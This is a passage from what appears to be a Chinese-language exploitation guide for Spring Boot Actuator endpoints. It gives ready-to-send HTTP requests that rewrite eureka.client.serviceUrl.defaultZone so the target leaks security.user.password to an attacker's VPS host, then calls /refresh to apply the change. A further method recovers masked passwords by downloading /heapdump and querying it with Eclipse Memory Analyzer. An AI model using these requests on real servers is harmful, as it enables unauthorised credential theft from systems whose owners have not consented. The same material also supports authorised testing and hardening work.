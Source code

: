 spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}


```

##### 步骤四：刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded



```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json



```

### 0x06：获取被星号脱敏的密码的明文 (方法四)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词 (如 password、secret) 的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

*   可正常 GET 请求目标 `/heapdump` 或 `/actuator/heapdump` 接口
    

#### 利用方法：

##### 步骤一：找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### 步骤二：下载 jvm heap 信息

> 下载的 heapdump 文件大小通常在 50M—500M 之间，有时候也可能会大于 2G

`GET` 请求目标的 `/heapdump` 或 `/actuator/heapdump` 接口，下载应用实时的 JVM 堆信息

##### 步骤三：使用 MAT 获得 jvm heap 中的密码明文

参考 文章 方法，使用 Eclipse Memory Analyzer 工具的 OQL 语句
